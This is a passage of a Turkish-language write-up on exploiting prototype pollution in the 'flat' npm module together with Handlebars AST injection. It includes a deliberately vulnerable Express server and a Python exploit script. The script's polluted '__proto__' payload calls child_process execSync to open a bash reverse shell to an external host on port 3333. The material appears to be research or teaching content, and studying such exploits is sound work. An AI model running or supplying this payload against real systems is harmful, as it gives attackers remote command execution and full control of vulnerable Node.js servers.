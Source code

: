 ```
```

Sonuç olarak, bir saldırı şu şekilde yapılandırılabilir. Parser'dan geçtiyseniz, NumberLiteral'ın değerine atanamayacak bir string belirtin. Ancak Injected AST işlendiğinde, fonksiyona herhangi bir kod ekleyebiliriz.

### Example

```
const express = require('express');
const { unflatten } = require('flat');
const bodyParser = require('body-parser');
const Handlebars  = require('handlebars');
 
const app = express();
app.use(bodyParser.json())

app.get('/', function (req, res) {
    var source = "<h1>It works!</h1>";
    var template = Handlebars.compile(source);
    res.end(template({}));
});

app.post('/vulnerable', function (req, res) {
    let object = unflatten(req.body);
    res.json(object);
});
 
app.listen(3000);


```

Prototype pollution güvenlik açığına sahip flat modül kullanarak güvenlik açığı olan bir sunucuyu yapılandırma örneği.

![Pasted image 20250129201552.png](/img/user/Pasted%20image%2020250129201552.png)

Flat, haftada 4.61 milyon indirme ile popüler bir modüldür ve bildirilen Prototype pollution güvenlik açığı için yama henüz yapılmamıştır.

https://github.com/hughsk/flat/issues/105

```
import requests

TARGET_URL = 'http://p6.is:3000'

# make pollution
requests.post(TARGET_URL + '/vulnerable', json = {
    "__proto__.type": "Program",
    "__proto__.body": [{
        "type": "MustacheStatement",
        "path": 0,
        "params": [{
            "type": "NumberLiteral",
            "value": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
        }],
        "loc": {
            "start": 0,
            "end": 0
        }
    }]
})

```